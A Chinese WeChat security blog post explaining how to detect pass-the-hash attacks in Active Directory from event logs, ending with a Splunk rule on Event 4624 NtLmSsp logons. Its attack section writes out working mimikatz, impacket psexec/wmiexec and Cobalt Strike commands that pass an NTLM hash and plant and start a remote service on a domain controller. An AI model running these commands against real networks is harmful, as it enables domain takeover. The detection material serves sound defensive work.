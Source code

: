 #  基于AD Event日志检测哈希传递攻击

原创 Bypass [ Bypass ](javascript:void\(0\);)

**Bypass** ![]()

微信号 Bypass--

功能介绍 致力于分享原创高质量干货，包括但不限于：渗透测试、WAF绕过、代码审计、安全运维。 闻道有先后，术业有专攻，如是而已。

____

___发表于_

收录于合集

**01、简介**

哈希传递攻击是基于NTLM认证的一种攻击方式，当我们获得某个管理员用户的密码哈希值，就可以利用密码哈希值进行横向渗透。

在域环境中，只有域管理员的哈希值才能进行哈希传递攻击，攻击成功后，可以访问域内任何一台机器。基于AD
Event日志如何检测哈希传递攻击，这个就是我们今天探讨的话题。

 **02、哈希传递攻击实例**

 **（1）使用mimikatz 进行哈希传递获取域控权限**

在域环境中，当我们获得了域管理员的NTLM哈希值，我们就可以访问域内任何一台服务器。

  *   *   *   * 

    
    
     #提权 privilege::debug #使用域管理员bypassu拍卖行及的NTLM值进行哈希传递攻击 sekurlsa::pth /user:bypass /domain:evil.com /ntlm:44f077e27f6fef69e7bd834c7242b040

![](https://gitee.com/fuli009/images/raw/master/public/20221208204539.png)

利用PsExec.exe来远程登录和执行命令

![](https://gitee.com/fuli009/images/raw/master/public/20221208204550.png)

 **（2）使用lmpacket工具包进行哈希传递获取域控权限**

lmpacket工具包集成了多个脚本，可用来进行哈希传递，如psexec.py、wmiexec.py。

  *   * 

    
    
    psexec.py  -hashes 00000000000000000000000000000000:44f077e27f6fef69e7bd834c7242b040 bypass@192.168.44.219wmiexec.py -hashes 00000000000000000000000000000000:44f077e27f6fef69e7bd834c7242b040 bypass@192.168.44.219

![](https://gitee.com/fuli009/images/raw/master/public/20221208204551.png)

 **(3) 通过Cobalt strike进行pth横向获取域控权限**

在已上线的机器中，使用先前获取的hash对目标域控进行哈希传递攻击，获取域控权限。

哈希传递  

  *   * 

    
    
    pth evil\bypass 44f077e27f6fef69e7bd834c7242b040shell dir \\192.168.44.219\c$

获取系统权限

  *   *   *   * 

    
    
    shell copy  C:\Users\administrator\Desktop\artifact.exe \\192.168.44.219\c$shell sc \\192.168.44.219 create test binpath=C:\artifact.exeshell sc \\192.168.44.219 start testshell sc \\192.168.44.219 delete test

![](https://gitee.com/fuli009/images/raw/master/public/20221208204553.png)

 **03、哈希传递攻击检测**

哈希传递攻击的检测其实是比较困难的，因为它总是和正常的访问行为非常类似，我们需要从域控收集的大量的安全日志中找到需要关心的事件和具体的值。

![](https://gitee.com/fuli009/images/raw/master/public/20221208204554.png)

分析：在使用NTLM凭证进行横向获取域控权限时，域控的日志中会记录4624登录事件，LogonType为3且登录进程为NtlmSsp，这里可以找到登录用户和登录源地址。为了能从正常的访问行为中，找出异常登录行为，我们可以设置白名单，将域控管理员和正常登录来源IP添加至白名单，关注关键用户的登录行为，排除干扰项。另外，当攻击者使用工具进行哈希传递的时候，比如使用psexec.py脚本进行哈希传递会同时产生多条LogonType为3且登录进程为NtlmSsp的日志，我们还可以将登录频率作为判断依据进行检测。

安全规则示例：

  *   * 

    
    
    eventtype=wineventlog_security   EventCode=4624   LogonProcessName=NtLmSsp   match_user!="*$"    src!="-"   match_user IN("administrator","bypass") | eval time=_time | bin time span=30m   | stats  count earliest(_time) AS start_time latest(_time) AS end_time values(src) as val_src  by time match_user  dest   | eval  start_time=strftime(start_time,"%F %T"),end_time=strftime(end_time,"%F %T")  | search count >5  | nomv val_src | eval message="在"+start_time+"到"+end_time+"时间内，域控服务器:"+dest +" 疑似遭受哈希传递攻击"+count+"次, 操作账号:"+match_user+" 操作来源ip:"+val_src| table  start_time   end_time  match_user message  count val_src  dest

告警效果如下图：

![](https://gitee.com/fuli009/images/raw/master/public/20221208204556.png)

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

